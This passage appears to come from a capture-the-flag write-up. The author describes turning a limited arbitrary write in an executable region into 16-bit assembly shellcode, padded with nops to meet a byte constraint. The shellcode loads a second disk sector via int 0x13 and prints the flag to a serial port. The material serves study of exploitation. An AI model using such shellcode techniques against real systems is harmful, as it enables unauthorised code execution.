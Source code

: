 Here we go, I got a limited arbitrary write in an executable region!

limitation: first bytes of every three bytes in shellcodes must be different

Now I can write shellcode in this region and run the shellcode by calling a custom function.


# 0x4 crafting shellcode

Our shellcode need to do two thing: load second sector from drive into the memory; and print out the flag

## print out flag:

1. setting up register
2. using `lodsb` to load one byte to `al` and move `si` to next byte
3. print out `al` using `out dx,al`
4. jump to step 2 again using `jmp`

```asm
    mov dx, 0x3f8              ; serial out
    mov si, bx                 ; source buffer (start of flag)
loop:
    lodsb                      ; load byte from si into al, advance si
    out dx, al                 ; send al to serial out
    jmp loop                   ; repeat
    nop
```

## load second sector into memory

This part is bit tricky, but I found a very good post about how to load second sector <http://3zanders.co.uk/2017/10/18/writing-a-bootloader3/>. 

So I just copy paste their assembly code and did some modification.

something to be noted

`int 0x13` uses cylinder-head-sector (CHS) addressing. In CHS addressing, sector index start with **1** instead of **0** due to some historical reason.

```asm
    mov ah, 0x2                ; read sectors from drive
    nop
    mov al, 1                  ; sectors to read
    nop
    mov ch, 0                  ; cylinder idx
    nop
    mov dh, 0                  ; head idx
    nop
    mov cl, 2                  ; sector idx
    nop
    mov dl, 0x80               ; disk idx
    nop
    mov bx, 0x7e00             ; target pointer
    int 0x13                   ; interrupt
```
